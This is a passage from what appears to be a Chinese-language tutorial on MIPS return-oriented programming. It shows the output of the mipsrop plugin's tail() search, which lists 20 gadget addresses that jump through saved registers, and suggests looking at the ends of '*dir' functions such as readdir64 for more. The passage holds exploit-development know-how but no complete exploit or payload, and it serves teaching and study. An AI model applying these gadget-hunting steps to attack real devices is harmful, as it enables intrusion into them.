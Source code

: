 我们发现，这个 gadget 最后会跳到 s2 寄存器里的值的位置，所以，我下一步需要找到能控制 s2 的寄存器

通常而言，我们这里会使用 mipsrop 插件的 `mipsrop.tail()` 方法来寻找，从栈上设置寄存器的 gadget 

```
Python>mipsrop.tail()
----------------------------------------------------------------------------------------------------------------
|  Address     |  Action                                              |  Control Jump                          |
----------------------------------------------------------------------------------------------------------------
|  0x0001E598  |  move $t9,$s2                                        |  jr    $s2                             |
|  0x000F7758  |  move $t9,$s1                                        |  jr    $s1                             |
|  0x000F776C  |  move $t9,$s1                                        |  jr    $s1                             |
|  0x000F7868  |  move $t9,$s1                                        |  jr    $s1                             |
|  0x000F787C  |  move $t9,$s1                                        |  jr    $s1                             |
|  0x000F86D4  |  move $t9,$s4                                        |  jr    $s4                             |
|  0x000F8794  |  move $t9,$s5                                        |  jr    $s5                             |
|  0x00127E6C  |  move $t9,$s0                                        |  jr    $s0                             |
|  0x0012A80C  |  move $t9,$s0                                        |  jr    $s0                             |
|  0x0012A880  |  move $t9,$s0                                        |  jr    $s0                             |
|  0x0012F4A8  |  move $t9,$a1                                        |  jr    $a1                             |
|  0x0013032C  |  move $t9,$a1                                        |  jr    $a1                             |
|  0x00130344  |  move $t9,$a1                                        |  jr    $a1                             |
|  0x00132C58  |  move $t9,$a1                                        |  jr    $a1                             |
|  0x00133888  |  move $t9,$a1                                        |  jr    $a1                             |
|  0x0013733C  |  move $t9,$a1                                        |  jr    $a1                             |
|  0x00137354  |  move $t9,$a1                                        |  jr    $a1                             |
|  0x00137CDC  |  move $t9,$a1                                        |  jr    $a1                             |
|  0x00137CF4  |  move $t9,$a1                                        |  jr    $a1                             |
|  0x00139BFC  |  move $t9,$s4                                        |  jr    $s4                             |
----------------------------------------------------------------------------------------------------------------
Found 20 matching gadgets
```
如果没有合适的，我们可以尝试找在一些 "*dir" 的函数结尾来查找，有没有合适的，例如我在 readdir64 函数的末尾发现如下 gadget
![image-20201029161619764](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/image-20201029161619764.png)
